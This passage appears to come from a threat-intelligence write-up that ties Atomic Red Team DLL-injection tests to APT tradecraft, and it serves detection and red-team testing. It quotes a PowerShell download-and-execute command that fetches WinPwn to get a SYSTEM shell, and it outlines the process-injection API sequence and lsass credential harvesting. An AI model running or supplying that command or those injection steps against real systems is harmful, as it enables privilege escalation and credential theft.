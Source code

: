 **APT Correlation:** A common technique used by a wide range of threat actors to inject code into processes like `lsass.exe` for credential dumping or browsers for session theft, all while hiding behind a trusted Microsoft executable.

### Atomic Test #2 - WinPwn - Get SYSTEM shell via UsoClient DLL Load
**Technique:** Abuse of Privileged File Operations for Privilege Escalation
**Adversary Usage:** Various APTs (Privilege Escalation)
**Command:**
```powershell
iex(iwr 'https://raw.githubusercontent.com/.../Get-UsoClientDLLSystem.ps1')
```
**Explanation:** This technique exploits the `UsoClient` (Update Orchestrator Service) process. It involves placing a malicious DLL in a location where a privileged SYSTEM process (`usoclient.exe`) is tricked into loading it. When the process loads the DLL, the malicious code executes with **SYSTEM-level privileges**, providing a direct path to full system compromise. This is more complex and targeted than general injection, often used specifically for privilege escalation.

**APT Correlation:** Demonstrates the depth of knowledge advanced actors have of the Windows OS. Abusing trusted system processes and their DLL search orders is a sophisticated method to gain the highest privileges on a system.

---

## Correlation with Advanced Tradecraft

### Common Characteristics:
* **Abuse of Trusted Processes:** Injecting into processes like `lsass.exe`, `svchost.exe`, `explorer.exe`, or browser processes to blend in with normal system activity.
* **Use of LOLBins:** Leveraging built-in Windows utilities like `mavinject.exe`, `rundll32.exe`, or others to avoid deploying custom tools.
* **Fileless Techniques:** Often, the malicious DLL is written to disk only momentarily before being injected, or is reflectively loaded directly from memory to minimize forensic evidence.

### Technical Implementation (Behind the Scenes):
The atomic tests abstract the complex underlying Windows API calls that all DLL injection ultimately relies on:
1.  **`OpenProcess`**: Obtain a handle to the target process.
2.  **`VirtualAllocEx`**: Allocate memory within the target process's address space.
3.  **`WriteProcessMemory`**: Write the path to the malicious DLL into the allocated memory.
4.  **`CreateRemoteThread`**: Create a new thread in the target process that executes `LoadLibrary`, pointing to the written DLL path.

### Tactical Objectives:
1.  **Defense Evasion (TA0005):** Hide malicious code execution within a legitimate process.
2.  **Privilege Escalation (TA0004):** Execute code in the context of a higher-integrity process (e.g., SYSTEM).
3.  **Credential Access (TA0006):** Inject into `lsass.exe` to harvest credentials from memory.
4.  **Persistence (TA0003):** Maintain long-term access by injecting into a persistent, trusted process.

---